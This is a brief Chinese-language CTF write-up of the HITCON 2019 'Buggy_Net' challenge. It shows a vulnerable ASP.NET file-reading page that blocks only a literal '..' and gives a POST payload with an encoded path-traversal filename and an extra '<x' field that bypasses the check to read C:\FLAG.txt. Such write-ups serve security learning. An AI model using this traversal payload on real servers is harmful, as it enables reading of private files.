

# \[Windows]\[HITCON 2019]Buggy\_Net

## \[Windows]\[HITCON 2019]Buggy\_Net

## 考点

* .Net审计

## wp

BUU上少给了flag位置：`C:\FLAG.txt`

题目给了源码



比较关键的逻辑如下

```csharp
<%@ Page Language="C#" %>
<% 
	bool isBad = false;
    try {
        if ( Request.Form["filename"] != null ) {
            isBad = Request.Form["filename"].Contains("..") == true;
        }
    } catch (Exception ex) {
        
    } 

    try {
        if (!isBad) {
            Response.Write(System.IO.File.ReadAllText(@"C:\inetpub\wwwroot\" + Request.Form["filename"]));
        }
    } catch (Exception ex) {
    }
%>
```

首先`isBad`为`false`，如果POST的文件名包含`..`的话，`isBad`就会为`true`，就读不了文件了。

所以这里要bypass`..`去读取文件c

[https://balsn.tw/ctf\_writeup/20191012-hitconctfquals/#buggy-.net\
](https://balsn.tw/ctf\_writeup/20191012-hitconctfquals/#buggy-.net)[https://www.sigflag.at/blog/2019/writeup-hitconctf2019-buggy-dot-net/](https://www.sigflag.at/blog/2019/writeup-hitconctf2019-buggy-dot-net/)

payload

```
POST filename=%2E%2E%5C%2E%2E%5CFLAG.txt&o=%3Cx
```

HTTP头部加个 `Content-Type: application/x-www-form-urlencoded`

s
